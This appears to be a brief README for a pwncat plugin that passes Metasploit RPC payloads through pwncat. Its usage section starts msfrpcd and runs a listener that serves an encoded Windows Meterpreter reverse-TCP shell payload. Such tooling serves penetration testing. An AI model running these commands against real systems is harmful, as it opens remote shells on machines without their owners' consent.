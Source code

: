 # PSE: Metasploit Plugin

A script to allow msfrpc payloads to be directly passed through pwncat

## Usage

Start msfrcpd

```
$ msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2020-04-20 23:49:39 -0400.
```

Meterpreter example
```
export MSF_PASSWD=mypassword ; pwncat -l 4444 --script-recv msfplugin.py -P windows/x64/meterpreter_reverse_tcp -O LHOST=ip.address -e x86/shikata_ga_nai 8
```